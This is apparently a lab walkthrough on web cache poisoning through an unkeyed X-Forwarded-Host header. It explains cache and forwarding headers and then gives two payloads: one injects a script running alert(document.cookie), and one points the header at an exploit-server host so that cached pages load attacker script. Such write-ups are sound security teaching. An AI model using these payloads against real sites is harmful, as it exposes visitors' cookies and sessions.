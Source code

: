 # Web cache poisoning with an unkeyed header
# Objective
This lab is vulnerable to web cache poisoning because it handles input from an unkeyed header in an unsafe way. An unsuspecting user regularly visits the site's home page. To solve this lab, poison the cache with a response that executes `alert(document.cookie)` in the visitor's browser.

# Solution
## Analysis
|![](Images/image.png)|
|:--:| 
| *Normal request* |
|![](Images/image-1.png)|
| *Request with extra header* |

### Cache headers explaination
```
Cache-Control: max-age=30   --> Response is cached for 30s
Age: 2                      --> Cached response is 2s old
X-Cache: hit                --> Response comes from cache
X-Cache: miss               --> Response does not come from cache
```

### X-Forwarded-* headers explaination
```
X-Forwarded-For     --> Tracks the original client IP address and the IP addresses of any intermediate proxies.
X-Forwarded-Host    --> Maintains the original host requested by the client.
X-Forwarded-Proto   --> Indicates the protocol (HTTP or HTTPS) used by the client.
X-Forwarded-Port    --> Specifies the port number used by the client to connect to the proxy.
```

## Exploitation
### Poisoning without using exploit server
Paylaod (extra header):
```
X-Forwarded-Host: testtest"></script><script>alert(document.cookie)//
```

|![](Images/image-2.png)|
|:--:| 
| *Poisoned cache* |

### Poisoning using exploit server
Paylaod (extra header):
```
X-Forwarded-Host: exploit-0a65007d038337e3830468450117007e.exploit-server.net
```

|![](Images/image-4.png)|
|:--:| 
| *Exploit server configuration* |
|![](Images/image-3.png)|
| *Poisoned cache* |
|![](Images/image-5.png)|
| *Result* |